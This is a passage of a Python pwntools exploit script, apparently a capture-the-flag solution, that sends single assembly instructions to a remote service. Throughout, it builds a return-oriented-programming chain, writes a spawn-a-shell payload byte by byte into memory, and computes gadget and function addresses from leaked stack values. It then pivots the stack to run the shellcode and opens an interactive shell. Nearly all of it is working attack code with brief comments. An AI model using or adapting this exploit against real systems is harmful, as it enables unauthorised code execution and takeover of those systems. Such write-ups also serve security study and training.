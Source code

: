 ```python
    'mov r14, r15',
    'lea r15, [r14-128]',
] * 32

# copies main address to [r13+8]
instructions += [
    'mov r14, [rbp+56]',    # gets main address to r14
    'mov [r13+8], r14',     # puts main address under memory pointed by r13+8
]
# After above we will have r13 storing a stack addr where we will have:
# +0: `alloc_page` function address
# +8: `main` function address
#
# Below instruction will start our ROP chain
instructions += ['mov rsp, r13']

for instr in instructions:  # execute first part of our ROP
    send_instr(instr)

p.recvuntil('initializing prof...ready\n')
info('Received HELLO from 2nd main execution.')

payload = shellcraft.amd64.sh()
shellcode_bytes = map(ord, asm(payload, os='linux', arch='amd64'))

send_instr('mov r14, r15')  # make a copy of begining of mmap'ed memory region address for later use
for byte in shellcode_bytes:
    send_instr('mov BYTE PTR [r15], %d' % byte)     # put shellcode byte
    send_instr('inc r15')                           # advance to next memory cell

##### Below we put our ROP chain on the stack (r13 points to some stack region):
# [r13 +8] - address of `pop rdi; pop` gadget
# [r13+16] - mmap'ed memory address, pop rdi will eat it
# [r13+24] - make_page_executable - changes memory region to readable and executable
# [r13+32] - address of readable and executable memory that contains our shellcode

##### saving shellcode/mmap'ed memory region address to the stack
send_instr('mov [r13+16], r14') # saving shellcode address so `pop rdi` gets it
send_instr('mov [r13+32], r14') # saving shellcode so rop jumps to it

##### gets `pop rdi; pop` gadget address
# rsp  0x7ffd907db1d0 —▸ 0x55cb935cfb18 (do_test+88) ◂— rdtsc
send_instr('mov r14, [rsp]') # r14 will have do_test+88 address = 0xb18
# 0xbc3-0xb18 = 171 - we need to advance r14 by 171
send_instr('lea r15, [r14+127]')    # r15 = 0xb18 + 127 = 0xb97
send_instr('mov r14, r15')          # r14 = r15 = 0xb97
send_instr('lea r15, [r14+44]')     # r15 = 0xb97 + 44 = 0xbc3 (`pop rdi; pop` gadget addr)
send_instr('mov [r13+8], r15')      # save gadget address to the stack

###### gets `make_page_executable` address (0xa20) to r13+24
# 06:0030│      0x7fff73937360 —▸ 0x55573d395aa3 (read_n+35) ◂— mov    byte ptr [rbx - 1], al
# 0f:0078│ rbp  0x7fff739373a8
send_instr('mov r14, [rbp-72]')     # r14 = addr —▸ aa3
send_instr('lea r15, [r14-127]')    # r15 = 0xaa3 - 127 = 0xa24
send_instr('mov r14, r15')          # r14 = r15 = 0xa24
send_instr('lea r15, [r14-4]')      # r15 = 0xa24 - 4 = 0xa20
send_instr('mov [r13+24], r15')     # save `make_page_executable` addr to the stack

###### "MAKE ROPCHAIN GREAT AGAIN!" - executes our rop chain
send_instr('lea rsp, [r13+8]')

p.interactive()
```
